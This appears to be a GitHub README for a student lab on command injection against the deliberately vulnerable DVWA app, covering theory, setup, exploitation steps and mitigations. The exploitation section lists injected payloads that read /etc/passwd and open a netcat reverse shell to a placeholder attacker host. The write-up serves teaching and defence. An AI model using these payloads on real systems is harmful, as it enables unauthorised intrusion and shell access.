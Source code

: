 # 💻 Command Injection Security Lab Project

![Status](https://img.shields.io/badge/Status-Completed-brightgreen)
![Tool](https://img.shields.io/badge/Tool-Burp%20Suite-orange)
![Category](https://img.shields.io/badge/Category-OWASP%20Top%2010-red)
![Language](https://img.shields.io/badge/Language-MD-blue)

## 📌 Prepared by: Selva Kumar  
📅 **Date:** August 2025  

---

## 📖 Abstract / Introduction
This project explores the concept of **Command Injection**, a critical web application vulnerability that allows attackers to execute arbitrary system commands on a host operating system via a vulnerable application.  

The report covers:  
- Theoretical background  
- Lab setup  
- Exploitation demonstration  
- Mitigation techniques  

🎯 **Goal:** Understand the impact of command injection and learn how to defend against it.  

---

## 🔎 Overview of Command Injection
**Command Injection** occurs when an application passes unsafe user input directly to a system shell. If inputs are not validated, attackers can execute system-level commands.  

### 🔧 Types of Command Injection:
- **Direct Command Injection** → Attacker directly executes arbitrary commands.  
- **Indirect Command Injection** → Attacker manipulates backend script execution.  
- **Blind Command Injection** → Results are not directly visible; attacker infers from behavior.  

### ⚠️ Risks:
- Data breaches  
- Privilege escalation  
- Lateral movement across systems  
- Full system compromise  

---

## ⚙️ Lab Setup
The lab environment was configured as follows:  
- **Operating Systems:** Kali Linux (attacker) & OWASP BWA/DVWA (victim)  
- **Tools Used:** Burp Suite, Netcat, Web Browser, Linux Terminal  
- **Configuration:** Victim web app hosted on VM, attacker machine on same network  

This setup simulates real-world exploitation in a **controlled lab environment**.  

---

## 🚀 Exploitation Steps

1. Access vulnerable web app → DVWA (*Command Injection module*).  
2. Enter input → `127.0.0.1` (basic test).  
3. Attempt injection → `127.0.0.1 && whoami`.  
   - ✅ Output reveals current system user.  
4. Inject additional payloads:  
   - `127.0.0.1 && cat /etc/passwd`  
5. Launch a reverse shell:  
   - `127.0.0.1 && nc -e /bin/bash attacker_ip 4444`  
6. [Insert Screenshot: Command Injection Example]  
7. [Insert Screenshot: Reverse Shell Capture]  

---

## 🛡️ Detection & Mitigation

### 🔍 Detection:
- Monitor **web server logs** for suspicious input.  
- Use IDS/WAF systems for anomaly detection.  
- Run scanners: **Burp Suite, Nikto, etc.**  

### ✅ Mitigation:
- Validate & sanitize all inputs (**prefer whitelisting**).  
- Use **parameterized system calls/APIs** instead of direct shell execution.  
- Apply **principle of least privilege** for web apps.  
- Patch & update systems regularly.  

---

## 📌 Conclusion
This project demonstrated how **Command Injection** vulnerabilities can be exploited to gain unauthorized system access.  

Through a **controlled lab setup**, we explored exploitation techniques and implemented defensive measures. Understanding these attacks is essential to improve **cybersecurity resilience** in real-world applications.  

---

## 🔗 References
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
- [DVWA Project](http://www.dvwa.co.uk/)  
- [Nmap](https://nmap.org/)  
- [Burp Suite](https://portswigger.net/burp)  

